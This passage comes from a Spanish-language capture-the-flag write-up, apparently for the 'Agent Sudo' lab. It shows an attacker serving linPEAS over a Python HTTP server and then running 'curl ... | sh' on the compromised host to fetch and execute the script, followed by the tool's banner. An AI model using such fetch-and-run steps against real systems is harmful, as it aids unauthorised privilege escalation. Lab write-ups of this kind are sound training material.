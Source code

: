 No vemos nada interesante, ya que aunque estamos en el grupo **sudo** no podemos desplegarnos una **bash**. Vamos utiliar la herramienta [PEASS-ng](https://github.com/carlospolop/PEASS-ng/releases/tag/20230618-1fa055b6):

```bash
❯ ll
.rw-r--r-- k4miyo k4miyo 816 KB Thu Jun 22 20:46:27 2023  linpeas.sh
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.121.147 - - [22/Jun/2023 20:49:55] "GET /linpeas.sh HTTP/1.1" 200 -
```

```bash
james@agent-sudo:~$ curl http://10.9.85.95:8000/linpeas.sh | sh
curl http://10.9.85.95:8000/linpeas.sh | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
 10  816k   10 88044    0     0   133k      0  0:00:06 --:--:--  0:00:06  133k
                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------| 
    |         Get the latest version    :     https://github.com/sponsors/carlospolop |
    |         Follow on Twitter         :     @hacktricks_live                          |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          linpeas-ng by carlospolop

ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
 LEGEND:
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
```